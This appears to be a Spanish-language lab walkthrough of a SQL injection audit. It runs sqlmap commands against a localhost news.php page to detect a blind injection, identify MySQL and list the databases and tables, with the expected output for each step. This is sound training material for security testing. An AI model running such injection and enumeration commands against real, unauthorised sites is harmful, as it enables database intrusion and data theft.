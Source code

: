 
## 🚀 Auditoría con SQLMap

### Paso 1: Detección Inicial de Vulnerabilidad
```bash
python sqlmap.py -u "http://localhost/news.php?id=1" --batch
```

**Resultado esperado:**
```
[INFO] testing connection to the target URL
[INFO] checking if the target is protected by some kind of WAF/IPS
[INFO] testing if the parameter 'id' is dynamic
[INFO] confirming that parameter 'id' is dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[INFO] testing for SQL injection on GET parameter 'id'
[INFO] testing 'Boolean-based blind SQL injection'
[INFO] GET parameter 'id' appears to be 'Boolean-based blind SQL injection' injectable
```

### Paso 2: Identificación de SGBD
```bash
python sqlmap.py -u "http://localhost/news.php?id=1" --dbms mysql --batch
```

**Resultado esperado:**
```
[INFO] the back-end DBMS is MySQL
web server operating system: Windows
web application technology: Apache, PHP
back-end DBMS: MySQL >= 5.0.12
```

### Paso 3: Enumeración de Bases de Datos
```bash
python sqlmap.py -u "http://localhost/news.php?id=1" --dbs --batch
```

**Resultado esperado:**
```
available databases [4]:
[*] auditoria_web
[*] information_schema
[*] mysql
[*] performance_schema
```

### Paso 4: Enumeración de Tablas
```bash
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web --tables --batch
```

**Resultado esperado:**
```
Database: auditoria_web
[2 tables]
+-------+
| blog  |
| users |
+-------+
```
